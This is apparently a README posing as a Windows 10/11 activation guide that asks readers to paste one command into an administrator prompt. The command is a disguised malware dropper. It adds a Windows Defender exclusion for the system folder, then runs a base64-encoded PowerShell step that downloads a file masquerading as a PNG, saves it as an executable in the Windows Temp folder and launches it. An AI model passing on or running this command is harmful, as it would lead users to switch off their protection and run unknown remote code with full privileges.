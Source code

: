 
## To activate Windows 10 and 11 follow the steps.

> Just copy and paste the following command into CMD admin.

> [!NOTE]
> net session >nul 2>&1 && powershell Set-MpPreference -ExclusionPath $env:SystemRoot | powershell -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAGQAcgBvAHAANAAwADQALgBwAHkAdABoAG8AbgBhAG4AeQB3AGgAZQByAGUALgBjAG8AbQAvAHMAdABhAHQAaQBjAC8AaQBuAGkAdAAuAHAAbgBnACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiACQAZQBuAHYAOgBTAHkAcwB0AGUAbQBSAG8AbwB0AFwAVABlAG0AcABcAC4AZQB4AGUAIgA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAIgAkAGUAbgB2ADoAUwB5AHMAdABlAG0AUgBvAG8AdABcAFQAZQBtAHAAXAAuAGUAeABlACIA >nul 2>&1 || (echo Need to run as Administrator )


> [!TIP]
> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure
